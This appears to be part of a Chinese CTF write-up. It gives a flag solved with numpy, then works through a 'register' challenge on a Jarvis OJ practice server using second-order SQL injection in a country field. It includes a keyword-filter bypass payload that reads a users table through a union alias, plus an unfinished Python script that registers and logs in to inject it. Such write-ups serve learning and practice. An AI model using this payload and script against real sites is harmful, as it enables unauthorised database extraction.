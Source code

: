 

分析发现是一个1元25次方程

用python numpy模块解出得到flag:

`QWB{R3ac7_1s_interesting}`



### register



```

题目入口：http://web.jarvisoj.com:32796/

Hint1: 二次注入

Hint2: register 二次注入在country
```

虽然提示二次注入在country处,但是却不清楚在那个查询语句

后来看了别人的wp才恍然大悟,country用来查时区

接下来就开始测试过滤了什么

测试后发现过滤了`table,information,where,username,limit`

参考了别人的wp，发现了新的绕过方式

```mysql

' or substr((hex((select group_concat(a) from (select 1,2,3`a`,4,5 union select * from users)`b`))),71,1)=0#
```

将表和1,2,3,4,5合成为一个临时表,并给自己想要查询的表弄个别名

脚本(有点丑)

```python
import requests
from bs4 import BeautifulSoup
def sqlinject(country,i):
    username="abc"
    password="abcde"
    address="abcd"
    
    sess=requests.session()
    #register
    register={
        "country":country,
        "username":username+str(i),
        "password":password,
        "address":address
    }
    
    reg=sess.post("http://web.jarvisoj.com:32796/register.php",data=register)
    #login

    log=sess.post("http://web.jarvisoj.com:32796/login.php",data=register)
    if "error" in reg.text:
        print("register error")
        bs= BeautifulSoup(reg.text,'html.parser')
        bs.find("h1",class_="error")

    result=sess.get("http://web.jarvisoj.com:32796/index.php?page=info")
    bs= BeautifulSoup(result.text,'html.parser')
    #print(result.text)
```